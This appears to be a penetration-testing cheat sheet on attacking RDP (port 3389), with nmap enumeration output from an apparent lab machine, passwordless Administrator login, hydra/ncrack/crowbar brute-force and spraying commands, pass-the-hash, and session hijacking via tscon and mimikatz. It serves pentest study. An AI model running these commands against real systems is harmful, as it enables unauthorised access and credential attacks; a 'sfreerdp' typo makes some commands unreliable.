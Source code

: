 ```yaml
---
title: 3389 RDP
author: amandaguglieri
draft: false
TableOfContents: true
---
```


# 3389 rdp

## Description

source: https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp

Basic information about RDP service: Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. The user employs RDP client software for this purpose, while the other computer must run RDP server software (from here).


| Name | Description |
| ---- | ----------- |
| port | 3389/TCP | 
| state | open |
| service | ms-wbt-server |   
| version | Microsoft Terminal Services |
| Banner | rdp-ntlm-info |


## Enumeration: 

To check the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

```bash
nmap -Pn -sV -p3389 --script rdp-*  IP
```

Results:
```
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption:
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info:
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-11T12:16:26+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

One of the most long-standing and major features of Windows is Remote Desktop. To run Microsoft’s Remote Desktop Protocol (RDP) client, a command-line interface called Microsoft Terminal Services Client (MSTSC) is used.

As mentioned before, we will be using xfreerdp to connect from our Parrot Security virtual machine. You can check if you have xfreerdp installed by typing the command name in the terminal. If the script's help menu is output to the terminal, then you are ready to go. In the following screenshot, we have omitted a large part of the output for space considerations. The help menu for this script is vast, and you can find out much information about the functionality of each switch if you read through it.

If you need to install xfreerdp, you can proceed with the following command: 

```
sudo apt-get install freerdp2-x11
```

We can first try to form an RDP session with the target by not providing any additional information for any switches other than the target IP address. This will make the script use your own username as the login username for the RDP session, thus testing guest login capabilities.

```
#/v:{target_IP} : Specifies the target IP of the host we would like to connect to.
sfreerdp /v:10.129.1.13
```

As we can see from the output below, our own username is not accepted for the RDP session login mechanism. We can try a myriad of other default accounts, such as user , admin , Administrator , and so on. In reality, this would be a time-consuming process. However, for the sake of RDP exploration, let us attempt logging in with the Administrator user, as seen from the commands below. We will also be specifying to the script that we would like to bypass all requirements for a security certificate so that our own script does not request them. The target, in this case, already does not expect any. Let us take a look at the switches we will need to use with xfreerdp in order to connect to our target in this scenario successfully:

```
# /cert:ignore : Specifies to the scrips that all security certificate usage should be ignored.
# /u:Administrator : Specifies the login username to be "Administrator".
# /v:{target_IP} : Specifies the target IP of the host we would like to connect to.
sfreerdp /cert:ignore /u:Administrator /v:10.129.1.13
```

The output is different this time, and during the initialization of the RDP session, we are asked for a Password. In our case, the Administrator account has not been configured with a password for logging in for the sake of accessibility for the end-user. This is a severe mishap in configuration and will result in us, the attacker, gaining access to the machine without much effort. When prompted to enter the Password like in the output above, we can hit Enter to let the process continue without one. Following this, a large output will be displayed on our terminal before a remote desktop window is loaded. The flag we are looking for is located on the Desktop.

## Brute force

```
ncrack -vv --user <User> -P pwds.txt rdp://<IP>
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
```
Be careful, you could lock accounts

## Password Spraying
Be careful, you could lock accounts
```
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Connect with known credentials/hash

```
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```

Check known credentials against RDP services

rdp_check.py from impacket let you check if some credentials are valid for a RDP service:

```
rdp_check <domain>/<name>:<password>@<IP>
```

## Attacks

### Session stealing

With SYSTEM permissions you can access any opened RDP session by any user without need to know the password of the owner.

Get openned sessions:
```
query user
```

Access to the selected session
```
tscon <ID> /dest:<SESSIONNAME>
```

Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

Important: When you access an active RDP sessions you will kickoff the user that was using it.
You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...)

### Mimikatz

You could also use mimikatz to do this:
```
ts::sessions #Get sessions
ts::remote /id:2 #Connect to the session
```

Sticky-keys & Utilman
Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime

You can search RDPs that have been backdoored with one of these techniques already with: https://github.com/linuz/Sticky-Keys-Slayer


### RDP Process Injection

If someone from a different domain or with better privileges login via RDP to the PC where you are an Admin, you can inject your beacon in his RDP session process and act as him:

### RDP Sessions Abuse

```
# Adding User to RDP group
net localgroup "Remote Desktop Users" UserLoginName /add
```

#### Shadow Attack

AutoRDPwn is a post-exploitation framework created in Powershell, designed primarily to automate the Shadow attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to view his victim's desktop without his consent, and even control it on demand, using tools native to the operating system itself.


https://github.com/JoelGMSec/AutoRDPwn

